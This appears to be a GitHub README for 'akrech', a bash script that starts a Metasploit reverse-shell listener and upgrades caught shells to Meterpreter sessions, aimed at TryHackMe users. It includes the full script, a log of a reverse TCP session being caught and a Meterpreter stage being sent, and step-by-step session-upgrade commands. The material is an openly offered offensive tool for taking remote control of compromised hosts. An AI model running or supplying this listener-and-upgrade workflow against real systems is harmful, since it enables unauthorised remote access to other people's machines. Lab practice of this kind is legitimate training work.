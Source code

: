 # akrech-reverse-shell-listener


█░█ █▀█ █▀▀ █▀█ ▄▀█ █▀▄ █▀▀   █▄█ █▀█ █░█ █▀█   █▄░█ █▀█ █▀█ █▀▄▀█ ▄▀█ █░░  
█▄█ █▀▀ █▄█ █▀▄ █▀█ █▄▀ ██▄   ░█░ █▄█ █▄█ █▀▄   █░▀█ █▄█ █▀▄ █░▀░█ █▀█ █▄▄  

█▀█ █▀▀ █░█ █▀▀ █▀█ █▀ █▀▀ ▄▄ █▀ █░█ █▀▀ █░░ █░░  
█▀▄ ██▄ ▀▄▀ ██▄ █▀▄ ▄█ ██▄ ░░ ▄█ █▀█ ██▄ █▄▄ █▄▄  

█ █▄░█ ▀█▀ █▀█   ▄▀█
█ █░▀█ ░█░ █▄█   █▀█

█▀▄▀█ █▀▀ ▀█▀ █▀▀ █▀█ █▀█ █▀█ █▀▀ ▀█▀ █▀▀ █▀█  
█░▀░█ ██▄ ░█░ ██▄ █▀▄ █▀▀ █▀▄ ██▄ ░█░ ██▄ █▀▄  

█▀ █░█ █▀▀ █░░ █░░
▄█ █▀█ ██▄ █▄▄ █▄▄

please read carefully, if you havn't any idea about "how to upgrade a normal reverse-shell to a meterpreter shell"



It's the first tool that I had made with bash scripting.
a very simple but useful(maybe) tool for tryhackme users.

#tested on kali-linux

#PROCESS
git clone https://github.com/a-k-r-e-c-h/akrech-rev-shell
$ cd akrech-rev-shell
$ chmod +x akrech.sh
$ ./akrech.sh                <-----#use "nano akrech.sh" if you want's to change the exploit or the IP/network interface.


[note]
***move/copy "akrech.sh" to "/bin" to access it from anywhere on your terminal***   <---$ mv akrech.sh /bin --->



<----after getting a shell successfully--->
ENTER(1) --- "background"
ENTER(2) --- "sessioions -u 1"     <---I used (1) for session 1...else use your sessions id...view it by enter"sessions">

#wait a while
#if everything works fine...then you are gonna get a meterpreter session...check it by ENTER "sessions"

ENTER(3) --- sessions -i 2        <---you should get a meterpreter shell successfully--->

<<<<<<<----------------------------------------------------------------------->>>>>>>
█▀▀▄ █▀▀ █▀▄▀█ █▀▀█ 
█░░█ █▀▀ █░▀░█ █░░█ 
▀▀▀░ ▀▀▀ ▀░░░▀ ▀▀▀▀


┌──(root💀kali)-[/home/kali/akrech-rev-shell]
└─# ./akrech.sh   
 


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝
 
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      
[*] Using configured payload generic/shell_reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.217.33:4444 
[*] Command shell session 1 opened (10.8.217.33:4444 -> 10.8.217.33:39094) at 2021-09-07 13:35:34 -0400

background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               10.8.217.33:4444 -> 10.8.217.33:39094 (10.8.217.33)

msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.217.33:4433 
[*] Sending stage (984904 bytes) to 10.8.217.33
[*] Meterpreter session 2 opened (10.8.217.33:4433 -> 10.8.217.33:41528) at 2021-09-07 13:36:12 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 



<<<<<<<------------------------------------------------------------------------->>>>>>

*akrech   ---a simple metasploit automated reverse-shell-listener tool written in bash.
*this tool is made for time saving & day-to-day usage.
*metasploit has must be installed to ran this script on your machine.
*found me on tweeter-- https://twitter.com/a_k_r_e_c_H

#!/bin/bash

 
echo -e " \e[91m


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝"
echo -e " \e[5m
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      "

msfconsole -q -x " use ```exploit/multi/handler```;    <---change this, if you wants to set another exploit--->
  set lhost ```tun0``` ;                               <---change this, if you wants to set another IP/network interface---> 
   set lport ```4444``` ;                              <---change this, if you wants to listen on another port--->
    exploit ;"
